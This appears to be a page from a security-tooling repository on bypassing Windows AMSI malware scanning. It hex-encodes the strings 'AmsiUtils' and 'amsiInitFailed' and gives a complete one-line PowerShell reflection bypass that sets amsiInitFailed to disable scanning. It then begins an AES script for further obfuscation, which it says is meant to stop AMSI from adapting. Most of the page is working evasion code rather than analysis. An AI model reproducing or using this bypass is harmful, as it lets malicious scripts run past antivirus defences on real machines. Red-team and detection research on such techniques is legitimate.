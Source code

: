 ## Hex Encoding
This method requires a bit more work in code, but achieves the same goal as above.
### Linux
```bash
echo -n "AmsiUtils" | xxd -pu
416d73695574696c73
echo -n "amsiInitFailed" | xxd -pu
616d7369496e69744661696c6564
```

### Windows
```powerhsell
'Am'+'si'+'Ut'+'il'+'s' | Format-Hex -Encoding utf8


           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   41 6D 73 69 55 74 69 6C 73                       AmsiUtils

'am'+'si'+'In'+'it'+'Fa'+'il'+'ed' | Format-Hex -Encoding utf8


           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64        amsiInitFailed
```

### Decoding
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

## Encryption
Encryption can be used to further obfuscate the code. Doing so will make it much harder for AMSI to evolve to handle this use case.
### Raw Encryption Code
To develop this, the following powershell script was develoepd to perform the encryption. This powershell script will encrypt the sensitive strings then decrypt them as a PoC.
```powershell
# key
$rng=New-Object "System.Security.Cryptography.RNGCryptoServiceProvider"
$encKey=[System.Byte[]]::new(32) #256bit key
$rng.GetBytes($encKey)

#init vector - 128 bit block size
$initVector = [System.Byte[]]::new(16)
$rng.GetBytes($initVector)

# create the cipher
$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider"
$aes.Key=$encKey
$aes.IV=$initVector

# do the encryption
$text='am'+'si'+'In'+'it'+'Fa'+'il'+'ed'
$ptBytes=[System.Text.Encoding]::UTF8.GetBytes($text)
$encryptor=$aes.CreateEncryptor()
$ctBytes=$encryptor.TransformFinalBlock($ptBytes,0,$ptBytes.Length)
```
